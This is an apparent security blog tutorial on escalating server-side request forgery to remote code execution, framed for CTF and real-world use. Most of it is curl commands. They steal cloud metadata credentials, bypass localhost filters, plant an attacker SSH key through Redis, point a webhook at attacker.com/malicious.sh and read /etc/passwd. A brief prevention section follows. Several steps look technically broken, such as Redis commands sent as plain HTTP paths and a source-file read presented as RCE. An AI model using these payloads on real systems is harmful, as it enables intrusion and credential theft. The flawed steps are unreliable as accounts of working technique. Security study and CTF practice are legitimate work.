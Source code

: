 ```yaml
---
title: "SSRF to RCE: Exploiting Server-Side Request Forgery for Remote Code Execution"
date: "2025-02-03"
author: "Sumon Nath"
tags: [CTF, cybersecurity, SSRF, RCE, exploitation, recon]
---
```


# SSRF to RCE: Exploiting Server-Side Request Forgery for Remote Code Execution

Server-Side Request Forgery (SSRF) is a powerful attack vector that allows an attacker to manipulate a server into making unintended requests. When leveraged correctly, SSRF can escalate into Remote Code Execution (RCE), allowing full system compromise. This guide explores different techniques to pivot from SSRF to RCE in CTF challenges and real-world scenarios.

---

## **1. Understanding SSRF to RCE**

### **What is SSRF?**
SSRF occurs when a web application fetches resources from user-controlled input without proper validation. This can be used to:
- Access internal services (e.g., 127.0.0.1, metadata APIs, etc.).
- Exploit vulnerable endpoints.
- Execute system commands by chaining with other vulnerabilities.

### **Common SSRF Targets**
- Cloud Metadata APIs (AWS, GCP, Azure, DigitalOcean, etc.).
- Internal Admin Panels (`http://localhost:8080/admin`).
- Internal Services (e.g., Redis, MongoDB, Memcached).
- Webhooks & API Calls.

---

## **2. Identifying SSRF**

### **Basic SSRF Detection**
Use Burp Suite or cURL to test external requests:
```bash
curl -X GET "http://vulnerable-site.com/?url=http://your-server.com/log"
```
If your server logs a request from the target, SSRF is possible.

### **Testing for Internal Resources**
```bash
curl -X GET "http://vulnerable-site.com/?url=http://127.0.0.1:8080"
```
If internal resources return a valid response, the SSRF allows internal scanning.

### **Bypassing URL Filtering**
Some applications block specific substrings like `http://localhost`. Use encoding and variations:
```bash
http://127.1/
http://[::1]/
http://0.0.0.0/
http://2130706433/
```

---

## **3. SSRF to RCE Exploitation Methods**

### **1. Exploiting Cloud Metadata APIs**
If an application is hosted on AWS, GCP, or Azure, SSRF can be used to fetch credentials.

#### **AWS Metadata Service**
```bash
curl -X GET "http://vulnerable-site.com/?url=http://169.254.169.254/latest/meta-data/"
```
Retrieve AWS credentials:
```bash
curl -X GET "http://vulnerable-site.com/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name"
```
Use credentials to access AWS services.

#### **GCP Metadata Service**
```bash
curl -X GET "http://vulnerable-site.com/?url=http://169.254.169.254/computeMetadata/v1/"
```
Use headers for GCP metadata:
```bash
curl -H "Metadata-Flavor: Google" -X GET "http://vulnerable-site.com/?url=http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token"
```

### **2. Pivoting to Internal Services**

#### **Redis SSRF to RCE**
If Redis is exposed, write a malicious SSH key:
```bash
curl -X GET "http://vulnerable-site.com/?url=http://127.0.0.1:6379/flushall"
curl -X GET "http://vulnerable-site.com/?url=http://127.0.0.1:6379/set ssh_key 'ssh-rsa AAAAB3... user@attacker'"
curl -X GET "http://vulnerable-site.com/?url=http://127.0.0.1:6379/config set dir /root/.ssh"
curl -X GET "http://vulnerable-site.com/?url=http://127.0.0.1:6379/config set dbfilename authorized_keys"
curl -X GET "http://vulnerable-site.com/?url=http://127.0.0.1:6379/save"
```
Login via SSH:
```bash
ssh -i id_rsa user@target-ip
```

#### **Exploiting Webhooks for RCE**
If an SSRF vulnerability allows webhooks to trigger external requests, it can be used for code execution.
```bash
curl -X POST "http://vulnerable-site.com/webhook" -d '{"url":"http://attacker.com/malicious.sh"}'
```

### **3. File Inclusion to RCE**
If the SSRF request is reflected inside the application, it may lead to local file inclusion (LFI):
```bash
curl -X GET "http://vulnerable-site.com/?url=file:///etc/passwd"
```
If PHP wrappers are enabled, SSRF can lead to Remote Code Execution:
```bash
curl -X GET "http://vulnerable-site.com/?url=php://filter/convert.base64-encode/resource=index.php"
```

---

## **4. Automating SSRF Attacks**

### **Using SSRFmap**
```bash
git clone https://github.com/swisskyrepo/SSRFmap.git
cd SSRFmap
python3 ssrfmap.py -u "http://vulnerable-site.com/?url=FUZZ" -p metadata
```

### **Using Burp Collaborator**
Intercept the request and replace the URL with a Burp Collaborator payload. If the server pings Burp Collaborator, it confirms SSRF.

---

## **5. Preventing SSRF Attacks**

### **Restrict Internal Requests**
- Block direct access to internal IP ranges (127.0.0.1, 169.254.169.254).
- Implement allowlists for external requests.

### **Use Secure Webhooks and API Calls**
- Require authentication and signature verification for webhook requests.
- Limit webhooks to specific trusted domains.

### **Sanitize User Input**
- Validate and enforce URL schemes (`http://` and `https://` only).
- Deny redirects and prevent open redirects.

---

## **Conclusion**

SSRF is a powerful vulnerability that can lead to Remote Code Execution when combined with misconfigured cloud services, internal APIs, or insecure file handling. By understanding various exploitation techniques, attackers can escalate SSRF vulnerabilities into full system compromise.

🚀 Keep testing, keep learning, and stay secure!

---

💡 **Want more security insights?** Stay tuned for advanced SSRF exploitation techniques!

